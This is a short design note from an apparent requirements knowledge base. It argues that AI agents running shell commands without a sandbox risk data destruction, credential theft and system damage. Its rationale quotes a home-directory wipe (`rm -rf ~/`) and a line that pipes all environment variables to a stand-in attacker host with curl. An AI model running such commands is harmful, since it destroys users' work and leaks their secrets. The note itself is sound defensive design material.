

<!-- (c) 2026-* Frederick Bloom -- UncontainedAgentExecution.driv-0.0.1.md -- Hanaden AI Loader -->
---
filename-id:   20260816-182145-UncontainedAgentExecution.driv
node-type:     DRIV
layer:         1
version:       0.0.1
status:        Active
author:        Frederick Bloom
copyright:     (c) 2026-* Frederick Bloom
description: >
  Driver: AI agents executing on bare host systems create catastrophic risk —
  data destruction, credential exfiltration, privilege escalation, NFS storms.
---

# UncontainedAgentExecution: Driver (Root Cause)

## Rationale

AI agents must call shell commands to be useful. Without a sandbox:
- Any hallucinated `rm -rf ~/` destroys work
- `env | curl -d @- attacker.com` exfiltrates all credentials
- Accessing `/homes` on NFS hosts triggers autofs storms (30s hangs × N users)
- Writing to `/etc` corrupts system state

These are not theoretical risks — they are realized daily in unguarded agentic pipelines.

## Root Cause Analysis

## Decomposition

- **Motivation:** NamespaceIsolatedSandbox.moti

## Changelog

| Version | Date | Author | Changes |
|---------|------|--------|---------|
| 0.0.1 | 2026-08-16 | Frederick Bloom + AI | Initial |
| 0.0.1 | 2026-08-17 | Frederick Bloom + AI | Enriched: Rationale, root cause Mermaid |
